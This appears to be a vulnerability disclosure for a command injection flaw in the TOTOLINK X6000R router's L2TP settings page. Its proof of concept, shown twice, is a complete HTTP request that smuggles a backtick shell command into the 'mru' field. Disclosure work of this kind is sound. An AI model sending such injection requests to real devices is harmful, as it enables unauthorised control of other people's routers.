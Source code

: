 # Summary
There is a command execution vulnerability in TOTOLINK X6000R V9.4.0cu.852_B20230719(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/l2tp.html", and vulnerable paramter is **"mru"**.

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/f988b107-ec6e-4f29-8749-0e34f26d919b)

Capture the packet and do a blind test directly, we edit the value of `mru` to a command to execute:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 224
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"1","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"`ls >/web/poc_l2tp_mru.txt`","ipsecL2tpEnable":"0","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```
![image](https://github.com/user-attachments/assets/14adae47-e324-4425-a07d-e87551c7b8e5)

![image](https://github.com/user-attachments/assets/a2796fab-fc59-4a17-ab4f-453bd28f470b)


# PoC
Capture the packet and do a blind test directly, we edit the value of `mru` to a command to execute:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 224
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"1","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"`ls >/web/poc_l2tp_mru.txt`","ipsecL2tpEnable":"0","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```
![image](https://github.com/user-attachments/assets/14adae47-e324-4425-a07d-e87551c7b8e5)

![image](https://github.com/user-attachments/assets/a2796fab-fc59-4a17-ab4f-453bd28f470b)
